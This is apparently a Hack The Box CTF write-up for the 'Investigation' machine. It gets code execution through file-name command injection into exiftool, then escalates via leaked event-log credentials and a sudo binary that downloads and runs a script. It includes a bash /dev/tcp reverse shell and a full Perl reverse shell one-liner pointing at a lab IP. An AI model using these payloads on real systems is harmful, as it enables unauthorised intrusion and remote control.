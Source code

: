 # Investigation

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.236.234
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-24 10:42 EST
Warning: 10.129.236.234 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.236.234
Host is up (0.16s latency).
Not shown: 64782 closed tcp ports (conn-refused), 751 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Web Exploit based. We would have to add `eforenzics.htb` to our `/etc/hosts` file to access the web port.

### Exiftool RCE

The website reveals some web application advertising Digital Forensic Services.

<figure><img src="../../../.gitbook/assets/image (11) (8) (1).png" alt=""><figcaption></figcaption></figure>

Clicking the big Go button reveals that we can upload a jpg file to the website for analysis.

<figure><img src="../../../.gitbook/assets/image (16) (7).png" alt=""><figcaption></figcaption></figure>

When I uploada file, it would produce a link to a report.

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

The file would be a .txt file of output from `exiftool` being used on the file.

<figure><img src="../../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>

Very obviously, there is a JPG RCE vulnerability here. One possible parameter to inject commands in is the File Name. With the version, I found this vulnerability that allowed for RCE through the pipe character.

{% embed url="https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429" %}

From this, I attempted a few direct OS command injections but it didn't work out well. I then attempted some Base64 encoded stuff, and a simple ping command works!

<figure><img src="../../../.gitbook/assets/image (17) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (21) (7) (1).png" alt=""><figcaption></figcaption></figure>

We can then replace the Base64 encoded command with a simple bash reverse shell and it works!

```
$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.56/4444 0>&1"  ' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni80NDQ0IDA+JjEiICAK
```

<figure><img src="../../../.gitbook/assets/image (20) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

When viewing the `/home` directory, we see there's a `smorton` user that we cannot access.

```
www-data@investigation:/home$ ls -la
total 12
drwxr-xr-x  3 root    root    4096 Aug 27 21:20 .
drwxr-xr-x 18 root    root    4096 Jan  9 16:53 ..
drwxrwx---  3 smorton smorton 4096 Jan  9 10:47 smorton
```

We need to do some looking around. I ran LinPEAS and found an interesting cronjob that was running.

<figure><img src="../../../.gitbook/assets/image (3) (1) (8).png" alt=""><figcaption></figcaption></figure>

Some backups of the `/home` directory were being created, and also there was an unquoted service path for the `date` binary.

### Windows Event Logs

Heading to the `/usr/local/investigation/analysed_log` file, we can find a Microsoft Outlook Message there.

```
www-data@investigation:/usr/local/investigation$ ls -la
total 1288
drwxr-xr-x  2 root     root        4096 Sep 30 23:43  .
drwxr-xr-x 11 root     root        4096 Aug 27 21:54  ..
-rw-rw-r--  1 smorton  smorton  1308160 Oct  1 00:35 'Windows Event Logs for Analysis.msg'
-rw-rw-r--  1 www-data www-data       0 Oct  1 00:40  analysed_log
```

I sent this back to my machine via `nc` and opened it using `msfconvert`. Afterwards, we can read the emails. There's a huge base64 encoded zip file attached.

```
Content-Type: text/plain; charset=UTF-8
Content-Disposition: inline
Content-Transfer-Encoding: 8bit

Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom
```

I couldn't decode the base64 to get the file for some reason, so I ported the message to my Windows machine and downloaded the file there.

When unzipped, we would get this MS Windows Vista Event Log.

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

So the key here is to watch for logging and file transfers that are occurring. We can use this tool to dump the log file into a JSON file for easier reading.&#x20;

{% embed url="https://github.com/omerbenamram/evtx" %}

After looking around the entire log file (for a while), I chanced upon this string when searching for the Authentication term.

<figure><img src="../../../.gitbook/assets/image (12) (9) (1).png" alt=""><figcaption></figcaption></figure>

Turns out that this was the password for `smorton`. We can now `su` and capture the user flag.

### Sudo Binary

When checking sudo privileges as `smorton`, we can find one:

```
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

Attempting to run the binary just does this:

```
smorton@investigation:~$ sudo /usr/bin/binary
Exiting...
```

So I transferred this binary back to my machine and used `ghidra` to see what it does. Here's the decompiled main function:

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can use this to get these this information:

1. It needs a total of 3 parameters
2. A password of `lDnxUysaQn` is needed as one of the parameters
3. It exeecutes `curl` and `perl` on the script we download
4. Then it cleans up by removing the file.

Simple enough. We should just need to host a perl reverse shell on our machine via Python HTTP and let this binary download and execute it.&#x20;

```perl
use Socket;$i="10.10.14.56";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

After a bit of testing about the ordering of the parameters, I found what works:

```
smorton@investigation:~$ sudo /usr/bin/binary http://10.10.14.56/rev.perl lDnxUysaQn 
Running...
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Definitely more on the CTF side of HTB.&#x20;
